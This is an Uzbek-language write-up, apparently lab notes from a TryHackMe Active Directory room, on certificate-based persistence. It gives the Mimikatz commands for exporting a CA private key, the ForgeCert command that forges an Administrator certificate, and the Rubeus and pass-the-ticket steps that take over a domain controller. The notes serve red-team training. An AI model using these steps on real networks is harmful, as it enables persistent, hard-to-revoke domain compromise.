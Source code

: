 
### **Eslatma:**

Bu yerda muhokama qilinayotgan texnikalar **nihoyatda tajovuzkor** va **ularni olib tashlash juda qiyin**. Agar siz red team mashqlaringizda ushbu texnikalardan foydalanishga ruxsat olgan bo‘lsangiz ham, **ularni bajarishda maksimal ehtiyotkorlik** bilan harakat qiling. Haqiqiy dunyodagi holatlarda bu texnikalardan foydalanish **butun domenni qayta tiklashga olib keladi**. Shuning uchun ushbu texnikalarning oqibatlarini to‘liq tushunganingizga ishonch hosil qiling va **faqat zarur bo‘lsa va oldindan ruxsat olingan bo‘lsa**gina ularni bajaring.

Ko‘pgina hollarda, red team mashqlari bu nuqtada **to‘xtatiladi (dechain)** va bu texnikalar **faqat simulyatsiya** qilinadi.

---

### **Kreditlarga bog‘liq bo‘lmagan (credential-agnostic) doimiylik:**

Avvalgi ikki doimiylik texnikasi **kreditlarga (login ma'lumotlariga)** tayangan edi. Bu texnikalar "Blue Team"ni band qilib qo‘yishi mumkin, lekin ular oxir-oqibat parollarni yangilash orqali sizni tizimdan chiqarib yuborishi mumkin.

Shuning uchun **kreditlarga bog‘liq bo‘lmagan texnikalar**ga o‘tamiz — ya'ni **sertifikatlar orqali doimiylik**.

---

### **Active Directory Certificate Services (AD CS) qaytishi:**

“Exploiting AD” bo‘limida biz **sertifikatlar orqali Domain Admin**ga aylangan edik. Endi esa sertifikatlardan **doimiylik** yaratish uchun foydalanamiz.

Agar bizda **Client Authentication** uchun yaroqli sertifikat bo‘lsa, u orqali **Kerberos TGT so‘rashimiz mumkin bo‘ladi** — hattoki administrator parolini o‘zgartirishsa ham, bizda doimiy kirish imkoni qoladi.

Agar ushbu sertifikat bekor qilinmasa yoki muddati tugamasa, biz **5 yilgacha tizimga kirishda davom etamiz**.

---

### **Yana bir qadam oldinga: CA kalitini o‘g‘irlash**

Biz \*\*sertifikatlarni beruvchi server (CA)\*\*ni egallab olishimiz mumkin. Agar bu serverda **HSM (Hardware Security Module)** yo‘q bo‘lsa, undagi **CA private key** — **Windowsning DPAPI** tizimi orqali himoyalangan bo‘ladi.

Biz bu **private key**ni olish uchun **Mimikatz** yoki **SharpDPAPI** kabi vositalardan foydalanamiz.

---

### **Mimikatz yordamida CA kalitini chiqarib olish:**

1. `crypto::certificates /systemstore:local_machine` — sertifikatlar ro‘yxatini ko‘rish
2. `privilege::debug` — debugging huquqini olish
3. `crypto::capi` va `crypto::cng` — CryptoAPI ni patch qilish
4. `crypto::certificates /systemstore:local_machine /export` — sertifikatlarni eksport qilish

Ekport qilingan fayllar:

* `.pfx` — private key bilan
* `.der` — faqat public key

Muhim fayl: `za-THMDC-CA.pfx` — bu bizni "hacker" sifatida doimiy qilishga xizmat qiladi.

---

### **ForgeCert yordamida soxta sertifikat yaratish:**

Endi biz bu `.pfx` fayldan foydalangan holda **istalgan foydalanuvchi nomidan sertifikat yaratishimiz mumkin.** Bu uchun `ForgeCert.exe` ishlatiladi:

```bash
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

---

### **Rubeus yordamida TGT so‘rash:**

Yaratilgan sertifikat orqali TGT olish:

```bash
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password123 /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
```

Agar muvaffaqiyatli bo‘lsa, `.kirbi` fayli olinadi — bu **Kerberos TGT** ni anglatadi.

---

### **Mimikatz orqali TGTni yuklab olish:**

```bash
kerberos::ptt administrator.kirbi
```

Endi siz Domain Controllerga quyidagicha kirishingiz mumkin:

```bash
dir \\THMDC.za.tryhackme.loc\c$\
```

Bu esa shuni bildiradiki — **siz endi to‘liq administrator sifatida tarmoqda faoliyat yuritmoqdasiz.**

---

### **Xulosa:**

Sertifikat orqali yaratilgan doimiylik — **eng xavfli va eng yashirin turlaridan biridir**. Buni aniqlash va bekor qilish **nafaqat murakkab**, balki ko‘p hollarda **domenni butunlay qayta tiklashni talab qiladi**.

Siz yaratgan soxta sertifikatlar **Active Directory tomonidan rasmiy tarzda berilmaganligi sababli bekor qilib bo‘lmaydi**, shuning uchun **CAni o‘zgartirish** — yagona yechim bo‘lib qoladi.

